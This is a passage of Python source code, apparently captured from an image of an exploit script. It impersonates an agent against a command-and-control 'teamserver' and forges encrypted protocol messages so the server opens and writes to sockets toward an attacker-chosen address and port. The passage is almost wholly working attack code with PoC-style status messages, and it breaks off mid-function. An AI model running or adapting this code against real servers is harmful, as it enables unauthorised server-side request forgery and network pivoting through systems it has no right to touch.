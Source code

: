 ```python
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")


def open_socket(socket_id, target_address, target_port):
    """
    Open a socket on the teamserver by sending the appropriate command
    with the provided socket_id, target_address, and target_port.
    """
    # Socket open command constants
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"
    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"

    # Reverse the order of target_address octets for the forward_addr
    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    # Convert target_port to bytes
    forward_port = int_to_bytes(target_port)

    # Build the subcommand package
    package = subcommand + socket_id + local_addr + local_port + forward_addr + forward_port
    package_size = int_to_bytes(len(package) + 4)

    # Encrypt the package and build header data
    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    # Calculate final size
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data

    print("[***] Trying to open socket on the teamserver...")
    # Send the request
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")


def write_socket(socket_id, data):
    """
    Write data to the specified socket_id on the teamserver.
    This constructs and sends the correct command structure for socket write.
    """
    # Socket write command constants
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    # Prepare the data length in bytes
    data_length = int_to_bytes(len(data))

```
